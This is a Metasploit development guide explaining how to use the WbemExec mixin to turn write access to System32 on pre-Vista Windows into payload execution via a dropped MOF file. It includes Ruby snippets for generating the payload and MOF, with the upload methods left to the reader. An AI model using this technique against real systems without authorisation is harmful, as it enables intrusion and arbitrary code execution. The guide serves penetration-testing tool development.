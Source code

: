 ```yaml
---
layout: "default"
title: "How to use WbemExec for a write privilege attack on Windows"
parent: "Developing Modules"
grand_parent: "Development"
---
```


Windows Management Instrumentation (WMI) is Microsoft's implementation of Web-Based Enterprise Management (WBEM), which uses Managed Object Format (MOF) to create Common Information Model (CIM) classes. The security community was actually unfamiliar with the evilness of this technology until the birth of Stuxnet, which used a MOF file to exploit a vulnerability allowing the attacker to create files via a fake Printer Spooler service. This technique was later reverse-engineered and demonstrated in Metasploit's [ms10_061_spoolss.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms10_061_spoolss.rb) module, and that significantly changed how we approach write-privilege attacks. Generally speaking, if you find yourself being able to write to system32, you can most likely take advantage of this technique.

### Requirements

To to able to use the ```WBemExec``` mixin, you must meet these requirements:

* Write permission to C:\Windows\System32\
* Write permission to C:\Windows\System32\Wbem\
* The target must NOT be newer than Windows Vista (so mostly good for XP, Win 2003, or older). This is more of a limitation from the API, not the technique. Newer Windows operating systems need the MOF file to be pre-compiled first.

### Usage

First, include the ```WbemExec``` mixin under the scope of your ```MetasploitModule``` class. You will also need the ```EXE``` mixin to generate an executable:

```ruby
include Msf::Exploit::EXE
include Msf::Exploit::WbemExec
```

Next, generate a payload name and the executable:

```ruby
payload_name = "evil.exe"
exe = generate_payload_exe
```

And then generate the mof file using the ```generate_mof``` method. The first argument should be the name of the mof file, and the second argument is the payload name:

```ruby
mof_name = "evil.mof"
mof = generate_mof(mof_name, payload_name)
```

Now you're ready to write/upload your files to the target machine. Always make sure you upload the payload executable first to ```C:\Windows\System32\```.

```ruby
upload_file_to_system32(payload_name, exe) # Write your own upload method
```

And then now you can upload the mof file to ```C:\Windows\System32\wbem\```:

```ruby
upload_mof(mof_name, mof) # Write your own upload method
```

Once the mof file is uploaded, the Windows Management Service should pick that up and execute it, which will end up executing your payload in system32. Also, the mof file will automatically be moved out of the mof directory after use.

### References

- <https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/wbemexec.rb>
- <https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/smb/ms10_061_spoolss.rb>
